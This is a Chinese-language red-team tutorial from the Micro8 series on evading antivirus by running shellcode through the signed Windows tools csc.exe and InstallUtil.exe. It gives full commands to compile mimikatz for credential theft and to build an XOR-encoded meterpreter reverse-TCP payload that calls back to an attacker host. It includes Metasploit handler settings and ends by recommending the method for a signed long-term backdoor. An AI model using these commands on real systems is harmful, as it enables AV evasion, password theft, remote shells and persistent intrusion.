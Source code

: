 ```yaml
---
title: 48、payload分离免杀思路第二季
date: 2019-09-21 19:05:22
comments: true
categories: 
 - Micro8系列
---
```



payload 分离免杀思路第一季是专门针对 x32 系统，以及针对 xp 包括以下版本。而在实战中，目标机器多为 Windows7 以上版本。而服务器以 x64 位居多。在第一季中，借助了非微软自带第三方来执行 Shellcode，这一季采取调用微软自带来执行 Shellcode，这里就会有一个好处，调用自带本身一定就会有微软的签名，从而绕过反病毒软件。

### 介绍相关概念：
Windows 自 Windows XP Media Center Edition 开始默认安装 NET Framework，直至目前的 Windows 10，最新的默认版本为4.6.00081.00。随着装机量，最新默认安装版本为4.7.2053.0。

### csc.exe：
C# 的在 Windows 平台下的编译器名称是 Csc.exe，如果你的 .NET FrameWork SDK 安装在 C 盘，那么你可以在 `C:\WINNT\Microsoft.NET\Framework\xxxxx` 目录中发现它。为了使用方便，你可以手动把这个目录添加到 Path 环境变量中去。用 Csc.exe 编译 HelloWorld.cs 非常简单，打开命令提示符，并切换到存放 test.cs 文件的目录中，输入下列行命令: `csc /target:exe test.cs`将 Ttest.cs 编译成名为 test.exe 的 console 应用程序
```code
//test.cs
using System; 
class TestApp 
{
    public static void Main()
    {
    Console.WriteLine("Micropoor!");
    }
}
```

### InstallUtil.exe：
微软官方介绍如下：
> The Installer tool is a command-line utility that allows you to install and uninstall server resources by executing the installer components in specified assemblies. This tool works in conjunction with classes in the System.Configuration.Install namespace.
> This tool is automatically installed with Visual Studio. To run the tool,use the Developer Command Prompt (or the Visual Studio Command Prompt in Windows7). For more information, see Command Prompts.
https://docs.microsoft.com/en-us/dotnet/framework/tools/installutil-exe-installer-tool

关于两个文件默认安装位置：（注意x32，x64区别）
```code
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
```
文章采取2种demo来辅助本文中心思想。

### demo1：

以抓密码为例：测试环境：目标A机安装了 360 套装。目标机 B 安装了小红伞，NOD32。目标机安 C 装了麦咖啡。  
生成秘钥：  
![](../do/media/cf8406093e5dbf031342ac48beecbb20.jpg)

执行：
```code
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Micropoor.exe /keyfile:C:\Users\Johnn\Desktop\installutil.snk /unsafe
C:\Users\Johnn\Desktop\mimi.cs
```
![](../do/media/b24b55a30609a64e9ae6eedd59669600.jpg)

```code
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Johnn\Desktop\Micropoor.exe
```
![](../do/media/54e053d6ba6b7ddf3ecff38b2e4b554c.jpg)  

![](../do/media/14d88766fa1337b2a7a1f4fcd0e41e7b.jpg)

### demo2：
以msf为例：  
生成shllcode
```code
msfvenom --platform Windows -a x64 -p windows/x64/meterpreter/reverse_tcp_uuid LHOST=192.168.1.5 LPORT=8080 -b '\x00' -e x64/xor -i 10 -f csharp -o ./Micropoor.txt
```
![](../do/media/60dc9d8d0c0d3716c0111382fda0880f.jpg)  

![](../do/media/06b4768ab7fb03e67d866bfa3535a8d0.jpg)

替换shellcode。  
![](../do/media/1981b698893f18b579b053c1c47cbbb5.jpg)

编译：
```code
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe /unsafe /platform:x64 /out:Micropoor.exe M.cs
```
![](../do/media/44a48a754a1077975cf9f7245474d6f4.jpg)

运行：
```code
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U Micropoor.exe
```
![](../do/media/2e2468278724012a07b672ba28994b41.jpg)

**注：在实际测试的过程，起监听需要配置一些参数，防止假死与假session。**  

```code
msf exploit(multi/handler) > set exitonsession false 
exitonsession => false
msf exploit(multi/handler) > set EnableStageEncoding true
EnableStageEncoding => true
msf exploit(multi/handler) >
msf exploit(multi/handler) > set Stageencoder x64/xor 
Stageencoder => x64/xor
msf exploit(multi/handler) > set stageencodingfallback false
stageencodingfallback => false
msf exploit(multi/handler) > exploit -j -z
```
![](../do/media/e0546970d950f42b600bc2c6822981e2.jpg)

上线：  
![](../do/media/c77a11ea1cd8acacd645ffd057050d18.jpg)


mimi.cs 953.71 KB
shllcode.cs


>   后者的话：该方法可以做一个带签名的长期后门。
> 
>   Micropoor
